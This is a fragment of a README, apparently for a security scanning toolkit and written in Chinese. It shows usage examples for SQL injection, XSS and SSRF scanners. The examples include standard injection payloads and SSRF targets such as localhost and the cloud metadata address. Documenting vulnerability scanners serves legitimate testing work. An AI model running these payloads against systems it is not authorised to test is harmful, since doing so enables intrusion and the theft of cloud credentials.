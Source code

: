 
## 🔧 核心功能使用

### 🛡️ 安全掃描功能

#### **SQL 注入檢測**
```python
from tools.exploits.sqli_scanner import SqliScanner

scanner = SqliScanner()
results = await scanner.scan("https://target.com/login")

# 輸出格式
{
    "vulnerabilities": [
        {
            "type": "SQL_INJECTION",
            "severity": "HIGH", 
            "location": "/login?id=1'",
            "payload": "1' OR '1'='1"
        }
    ]
}
```

#### **XSS 攻擊檢測**
```python
from tools.exploits.xss_scanner import XssScanner

scanner = XssScanner()
results = await scanner.scan("https://target.com/search")

# 自動測試多種 XSS 向量
payloads = [
    "<script>alert('XSS')</script>",
    "javascript:alert('XSS')",
    "<img src=x onerror=alert('XSS')>"
]
```

#### **SSRF 伺服器端請求偽造**
```python  
from tools.exploits.ssrf_scanner import SsrfScanner

scanner = SsrfScanner()
results = await scanner.scan("https://target.com/api/fetch")

# 測試內網存取
internal_targets = [
    "http://localhost:80",
    "http://127.0.0.1:22", 
    "http://169.254.169.254/metadata"
]
```
